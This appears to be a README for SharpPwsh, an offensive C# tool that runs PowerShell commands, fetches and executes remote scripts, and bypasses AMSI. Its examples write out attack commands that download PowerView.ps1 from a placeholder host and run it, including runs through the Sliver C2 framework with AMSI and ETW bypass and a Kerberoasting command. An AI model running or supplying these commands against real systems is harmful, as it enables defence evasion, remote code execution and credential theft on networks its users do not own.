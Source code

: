 # SharpPwsh
C# .Net Framework program that uses `RunspaceFactory` for Powershell command execution.

## Features
- Execute Powershell commands
- Load & execute remote script
- AMSI Bypass

## Usage

```
SharpPwsh 1.0.0.0
Copyright c  2022

  -c, --cmd            Required. Powershell command to run

  -u, --uri            URI to fetch remote script

  -b, --bypass-amsi    Bypass AMSI

  --help               Display this help screen.

  --version            Display version information.
```

## Examples

```
# execute powershell command
.\SharpPwsh.exe -c whoami

# load remote script and execute
.\SharpPwsh.exe -u http://x.x.x.x/PowerView.ps1 -c get-netlocalgroup

# sliver inline & bypass AMSI + ETW
sliver > execute-assembly -M -E -i /tools/SharpPwsh.exe -c get-netlocalgroup -u http://x.x.x.x/psh/PowerSploit/Recon/PowerView.ps1

# sliver BOF & bypass AMSI
sliver > inline-execute-assembly /tools/SharpPwsh.exe '-b -c invoke-kerberoast -u http://x.x.x.x/PowerView.ps1'
```

## Planned
- Load & execute embedded script
- Load & execute script from disk
- Load & execute script from clipboard
- Compression & encryption support for scripts
- Multiple command support

## Build
Built using .NET Framework v4.5.1 in Visual Studio 2019.

Be sure to add `c:\windows\assembly\GAC_MSIL\System.Management.Automation\1.0.0.0__31bf3856ad364e35\System.Management.Automation.dll` as a reference.

The project uses [`dnMerge`](https://github.com/CCob/dnMerge) so it has to be compiled in `Release` mode.
